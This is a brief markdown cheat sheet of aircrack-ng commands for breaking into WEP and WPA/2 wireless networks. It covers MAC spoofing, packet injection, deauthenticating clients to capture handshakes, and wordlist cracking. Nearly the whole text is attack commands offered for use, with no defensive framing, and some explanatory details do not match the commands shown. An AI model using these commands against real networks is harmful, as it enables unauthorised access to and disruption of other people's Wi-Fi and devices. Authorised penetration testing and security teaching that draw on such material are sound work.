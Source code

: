# Hacking Wireless

### WEP

Configure Interface:

```
airmon-ng stop wlan0
ifconfig wlan0 down
macchanger --mac aa:bb:cc:dd:ee:ff wlan0
airmon-ng start wlan0
```

Scan for networks:

```
airodump-ng mon0
```

Target AP:

```
airodump-ng -c (channel) -w (file name) --bssid (bssid) mon0
```

Attack:

```
aireplay-ng -1 0 -a (bssid) -h aa:bb:cc:dd:ee:ff -e (essid) wlan0
aireplay-ng -3 -b (bssid) -h aa:bb:cc:dd:ee:ff wlan0
(captured data will have to be above 10,000 to crack)
```

Cracking:

```
aircrack-ng -b (bssid) (file_name-01.cap)
```

### WPA/2

Configure Interface:

```
ifconfig wlan0 down
airmon-ng stop wlan0
macchanger --mac=aa:bb:cc:dd:ee:ff wlan0
airmon-ng start wlan0
```

Scan for networks:

```
airodump-ng wlan0
```

Choose your target and then:

```
airodump-ng --channel 2 wlan0mon -w outputfile_name --bssid 00:1D:AA:9F:77:4C
```

Attack using AP MAC and Client MAC:

```
aireplay-ng -0 10 -a 00:04:96:2A:BB:EA -c 5C:59:48:0F:24:9A wlan0
aireplay-ng -0 1 -e thestudio... Wlan0mon

-0 means deauthentication
 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
-a 00:14:6C:7E:40:80 is the MAC address of the access point
-c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
ath0 is the interface name
```

Crack the handshake

```
aircrack-ng -w ~/Desktop/Wordlist/CRACKED_PASS.dic /root/Desktop/CapFileName
```

It is also possible to crack the hash using Hashcat (better method). You will need to convert the handshake first

